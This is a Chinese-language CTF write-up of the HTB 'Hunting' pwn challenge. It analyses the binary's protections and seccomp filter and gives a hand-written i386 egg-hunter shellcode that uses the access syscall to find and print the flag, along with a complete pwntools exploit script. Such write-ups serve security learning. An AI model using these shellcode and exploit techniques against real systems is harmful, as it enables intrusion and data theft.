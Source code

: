 ﻿
---
title: Hunting— HTB  PWN  challenge 
categories: [CTF,HTB]
tags: [pwn]

---

一道htb中，比较有意思的手写shellcode题。<!--more-->

## 题目分析

```bash
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

如上，题目是一个32位程序，且保护只开了PIE并开放了读写执行权限。

分析程序主要流程我们可以看到：

![image-20211102210710626](image-20211102210710626.png)

程序先mmap一段空间，将flag如这个空间中。

再用meset把flag原本存放的空间清零。

然后我们有大小为0x3c来写入我们的后门。

但是题目设置seccomp沙箱，禁用一些系统调用。

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x20 0x00 0x00 0x00000000  A = sys_number
 0002: 0x35 0x0a 0x00 0x40000000  if (A >= 0x40000000) goto 0013
 0003: 0x15 0x09 0x00 0x0000000b  if (A == execve) goto 0013
 0004: 0x15 0x08 0x00 0x00000166  if (A == execveat) goto 0013
 0005: 0x15 0x07 0x00 0x00000127  if (A == openat) goto 0013
 0006: 0x15 0x06 0x00 0x00000005  if (A == open) goto 0013
 0007: 0x15 0x05 0x00 0x00000006  if (A == close) goto 0013
 0008: 0x15 0x04 0x00 0x00000008  if (A == creat) goto 0013
 0009: 0x15 0x03 0x00 0x00000056  if (A == uselib) goto 0013
 0010: 0x15 0x02 0x00 0x00000002  if (A == fork) goto 0013
 0011: 0x15 0x01 0x00 0x000000be  if (A == vfork) goto 0013
 0012: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0013: 0x06 0x00 0x00 0x00000000  return KILL
```

由于禁用了execve和open导致我们无法常规getshell或orw

但经过gdb，我们发现，由于开了PIE,flag的位置是随机的，但是flag位置大小于`0x60000000`.

![image-20211103102846331](image-20211103102846331.png)

再进一步分析，可以看到flag在段地址开始的位置。所以我们以`0x1000`遍历地址，我们就可以发现flag。

```
gdb-peda$ x/20gs 0x6b6d0000
warning: Unable to display strings with size 'g', using 'b' instead.
0x6b6d0000:     "HTB{", 'X' <repeats 31 times>, "}"
0x6b6d0025:     ""
0x6b6d0026:     ""
0x6b6d0027:     ""
0x6b6d0028:     ""
0x6b6d0029:     ""
0x6b6d002a:     ""
0x6b6d002b:     ""
0x6b6d002c:     ""
0x6b6d002d:     ""
0x6b6d002e:     ""
0x6b6d002f:     ""
0x6b6d0030:     ""
0x6b6d0031:     ""
0x6b6d0032:     ""
0x6b6d0033:     ""
0x6b6d0034:     ""
0x6b6d0035:     ""
0x6b6d0036:     ""
```

## 如何定位flag

### access函数

经过查阅资料后我们可以发现access函数不仅可以判断某文件名是否存在还在可以判断某地址段是否存在。

```c
access(const char *filename,int mode);
```

当mode 为0 时，判断是否存在。

当mode 为1时，判断是否有执行权限。

当mode 为2时，判断是否有写权限。

当mode 为3时，判断是否有读权限。

filename参数既可以传入文件名，也可以虚拟内存地址。

### for 循环查找

由于用access函数，我们可以以`0x1000`为一个单位来慢慢遍历。

用c伪代码来表达就是：

```c
for (uint32_t address = 0x60000000; address < 0x7fffffff; address += 0x1000)
{

        if (access(address + i +4) == EFAULT)
            break;
        write(1, address, 0x26);
        exit(0);
        
    
}
```

用汇编来表达就是：

```assembly
mov edx,0x5fffffff;
xor ecx,ecx;
notaccess:
or dx,0xfff;
inc edx;
mov eax,0x21;
lea  ebx,[edx+4]
int 0x80
cmp eax,0xfffffff2;
jz  notaccess;
mov eax,0x04;
mov ebx,1;
mov ecx,edx;
mov edx,0x26
int 0x80
```

## exp

```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

'''
@File    :   exp.py
@Time    :   2021/11/02 19:51:09
@Author  :   lexsd6
'''

from pwn import * 
from libcfind import *

local_mote=1
elf='./hunting'
e=ELF(elf)
#context.log_level = 'debug'
context.arch=e.arch
ip_port=['178.62.96.143',30132]

debug=lambda : gdb.attach(p) if local_mote==1 else None

if local_mote==1 :
   p=process(elf)
else :
   p=remote(ip_port[0],ip_port[-1])

shell="""

mov edx,0x5fffffff;
xor ecx,ecx;
notaccess:
or dx,0xfff;
inc edx;
mov eax,0x21;
lea  ebx,[edx+4]
int 0x80
cmp eax,0xfffffff2;
jz  notaccess;

mov eax,0x04;
mov ebx,1;
mov ecx,edx;
mov edx,0x26
int 0x80
"""


debug()
p.sendline(asm(shell))
p.interactive()
```

## 知识点小记

### 汇编指令

有几个汇编指令搞忘了，在这里小记下。

lea  x,[y]

取y对应的地址作为x的值存入。

mov x,[y]

取y对应的地址的值作为x的值存入。

or  x,y

对x,y进行或运算，并将值存入x中。

xor x,y

xor异或运算,当x,y两个不同时结果为1,否则为0.在汇编中有时也用于清零操作，例如 `xor eax,eax ` 清空eax寄存器。

### 延长程序时间

在看大佬博客https://karol-mazurek95.medium.com/pwn-hunting-challenge-htb-abc635c897db时看到我们在一些时候可以利用系统调用`alarm`来延长程序时间。

```c
alarm(unsigned int seconds);
```





